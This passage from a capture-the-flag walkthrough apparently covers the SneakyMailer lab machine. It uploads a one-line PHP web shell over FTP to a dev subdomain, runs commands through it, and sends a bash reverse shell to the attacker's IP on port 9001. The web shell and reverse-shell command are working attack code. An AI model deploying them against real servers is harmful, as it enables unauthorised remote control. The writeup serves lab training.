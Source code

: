 Unfortunately there is no interesting code in any of the files.
It is possible to upload files on the FTP service in the _dev_ folder:
```
ftp> cd dev
250 Directory successfully changed.

ftp> put test.txt
local: test.txt remote: test.txt
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
```

This file cannot be found on the web page, but as the folder is called _dev_ there may be another subdomain for developing purposes.
By adding the domain _dev.sneakycorp.htb_ to our _/etc/hosts_ file, it can be verified that this subdomain exists and files from the FTP server are put in there:

![File upload on Dev Subdomain](sneakymailer_web-2.png)

Creating a PHP shell _(shell.php)_:
```
<?php system($_REQUEST['cmd']); ?>
```

Uploading the PHP file:
```
ftp> put shell.php
```

Testing command execution:
```
GET /shell.php?cmd=whoami HTTP/1.1
Host: dev.sneakycorp.htb
```

It works and executes the `whoami` command and shows that the current user is _www-data_, so lets execute a reverse shell command:
```
POST /shell.php HTTP/1.1
Host: dev.sneakycorp.htb
(...)

cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.6/9001 0>&1'
```

After URL-encoding the data and sending the request, the listener on my IP and port 9001 starts a reverse shell as _www-data_.

## Privilege Escalation

